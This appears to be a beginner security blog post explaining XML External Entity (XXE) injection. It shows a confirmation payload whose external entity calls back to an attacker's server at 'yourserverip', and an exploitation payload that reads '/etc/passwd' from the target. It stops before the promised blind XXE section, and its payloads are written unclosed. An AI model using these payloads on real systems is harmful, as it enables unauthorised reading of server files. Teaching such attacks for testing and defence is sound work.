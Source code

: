 Hi all,

&nbsp;  Welcome to my blog of "From basic XXE to blind XXE"

## What is XXE?

XXE is a short of XML External Entity, which is a vulnerablity found when misconfiguration XML parser parses enternal entities.
There are two types of XXE:- 

1. Basic 
2. Blind.

&nbsp;  Let's talk about 'basic' type:- 

For ex you have this url with a parameter that parses XML data. 'http://myapp.com/somefile.php?xml=<xml_data>'

Now when you provide any xml data, and that data is printing back to the user's browser then you can try basic XXE. First of all for confirming that you have found vulnerability is by using this payload.

`<?xml version="1.0"?><!DOCTYPE root [<!ENTITY test SYSTEM 'http://yourserverip/']`

Now let's understand from Doctype portion. As we define the root element i.e. root, next in the DOCTYPE we define the entity and that entity contains SYSTEM attribute which indicate that the entity is External.

Now when you give this code to the server than that server's XML parser will parse the results and it was miconfigured so it will also process our External entity by **requesting to your server.**
So if you got a new connection in the log file then it is confirmed that you have found XXE.

Now it's time to exploit it.

Here you can give this payload `<?xml version="1.0"?><!DOCTYPE root [<!ENTITY test SYSTEM 'file:///etc/passwd']`
